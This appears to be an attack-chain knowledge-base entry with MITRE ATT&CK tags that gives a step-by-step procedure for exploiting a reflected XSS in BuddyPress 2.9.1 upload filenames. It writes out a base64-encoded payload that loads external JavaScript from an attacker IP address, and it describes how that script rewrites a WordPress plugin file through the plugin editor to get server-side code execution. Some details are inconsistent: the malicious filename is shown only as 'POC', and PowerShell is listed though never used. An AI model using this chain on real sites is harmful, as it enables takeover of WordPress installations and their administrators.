

---
tags:
  - xss
  - rce
  - wordpress
  - buddypress
  - file-upload
  - reflected-xss
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/btoa-payload-encode]]'
verified: false
platforms:
  - Web
  - PHP
  - WordPress
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Authenticate-as-WordPress-Admin]]'
  - '[[procedures/Access-BuddyPress-Upload-Interface]]'
  - '[[procedures/Upload-Malicious-Filename-for-XSS]]'
  - '[[procedures/Trigger-Reflected-XSS-Payload]]'
  - '[[procedures/Chain-XSS-to-WordPress-RCE]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[PowerShell]]'
updated_at: '2025-12-14T17:23:32.455Z'
description: >-
  A multi-stage attack exploiting unsanitized filenames in BuddyPress upload
  error messages to achieve reflected XSS, which chains to RCE on WordPress if
  the victim is an admin by manipulating the plugin editor interface.
skill_level: intermediate
impact_level: high
id: d0f7fc43-d124-4155-ae15-adb26ea320d8
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[PowerShell]]'
---
# BuddyPress 2.9.1 Reflected XSS via Unsanitized Upload Filenames Leading to RCE

Multi-stage attack chain demonstrating a complete attack workflow exploiting a reflected XSS vulnerability in BuddyPress 2.9.1 upload error messages, which allows arbitrary JavaScript execution and can chain to remote code execution (RCE) if the victim is an admin user. The attack relies on social engineering to trick the victim into uploading an oversized file with a malicious filename containing an XSS payload. The payload decodes and injects a script that loads external JavaScript, enabling further exploitation of the WordPress admin interface under the same-origin policy.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer console (e.g., Chrome DevTools for payload testing)

### Target Environment

- WordPress with BuddyPress 2.9.1 plugin installed
- PHP-based web server
- Access to profile edit or avatar/cover image upload endpoints

### Initial Access Requirements

- Valid admin credentials (or social engineering to obtain victim upload)
- Network access to the WordPress site
- No prior access needed beyond authentication

## Detailed Attack Procedures

### Step 1: Authenticate as Admin User
procedure: [[procedures/Authenticate-as-WordPress-Admin]]

**Objective**: Gain authenticated access to the WordPress admin dashboard to reach vulnerable upload interfaces.

**Instructions**: Navigate to the WordPress login page and enter admin credentials. Upon success, access the dashboard.

**Expected Output**: Redirect to /wp-admin/ dashboard with admin privileges.

**Success Indicators**:
- Successful login without errors
- Access to user management or profile edit pages

### Step 2: Access Vulnerable Upload Interface
procedure: [[procedures/Access-BuddyPress-Upload-Interface]]

**Objective**: Navigate to BuddyPress endpoints where file uploads trigger unsanitized error messages.

**Instructions**: From the admin dashboard, go to /wp-admin/users.php?page=bp-profile-edit, or front-end paths like /members/USERNAME/profile/change-cover-image/ or /members/USERNAME/profile/change-avatar/.

**Expected Output**: Upload form visible for avatars or cover images.

**Success Indicators**:
- Upload interface loads without errors
- File size limits are enforced (e.g., max 2MB)

### Step 3: Upload Oversized File with Malicious Filename
procedure: [[procedures/Upload-Malicious-Filename-for-XSS]]

**Objective**: Upload a file exceeding size limits with a filename embedding an XSS payload to trigger reflection in the error message.

**Instructions**: First, prepare the payload by encoding it using [[commands/btoa-payload-encode]] in the browser console:

```javascript
btoa('Running POC<script type="text/javascript" src="http://159.203.190.123/w9rfas89eufs9e8fu98ewufjwefiojwe_s1058g-/wp-rce.js"></script>');
```

Then, create a file larger than the limit (e.g., >2MB dummy image) and rename it to: POC. Upload via the interface.

**Expected Output**: Error message displaying the full unsanitized filename.

**Success Indicators**:
- Upload fails due to size
- Error page renders with filename visible and XSS executes (alert or script load)

### Step 4: Trigger Reflected XSS Payload
procedure: [[procedures/Trigger-Reflected-XSS-Payload]]

**Objective**: Execute the injected JavaScript from the reflected filename in the error message.

**Instructions**: The error page automatically triggers the  onerror handler, which decodes the base64 payload via atob() and writes a script tag loading external JS from http://159.203.190.123/w9rfas89eufs9e8fu98ewufjwefiojwe_s1058g-/wp-rce.js. The decoded content injects 'Running POC' followed by the script.

**Expected Output**: 'Running POC' text appears, and external script loads successfully.

**Success Indicators**:
- JavaScript executes in victim's browser
- Network request to external JS server observed in dev tools

### Step 5: Chain XSS to RCE
procedure: [[procedures/Chain-XSS-to-WordPress-RCE]]

**Objective**: Use the loaded script to manipulate the WordPress plugin editor for arbitrary PHP execution.

**Instructions**: The wp-rce.js script creates an iframe to /wp-admin/plugin-editor.php?file=hello.php, waits 2 seconds, accesses contentWindow to set the #newcontent textarea to '<?php phpinfo(); ?>' , simulates a click on #submit to save, waits 4 more seconds, then redirects to /wp-content/plugins/hello.php to execute.

**Expected Output**: PHP info page loads, confirming RCE.

**Success Indicators**:
- hello.php file modified on server
- PHP code executes without errors

## Attack Chain Summary

### Key Achievements

1. Achieved reflected XSS via social-engineered file upload
2. Loaded external JavaScript under same-origin policy
3. Escalated to server-side RCE by editing plugin files as admin

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]
- [[PowerShell]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
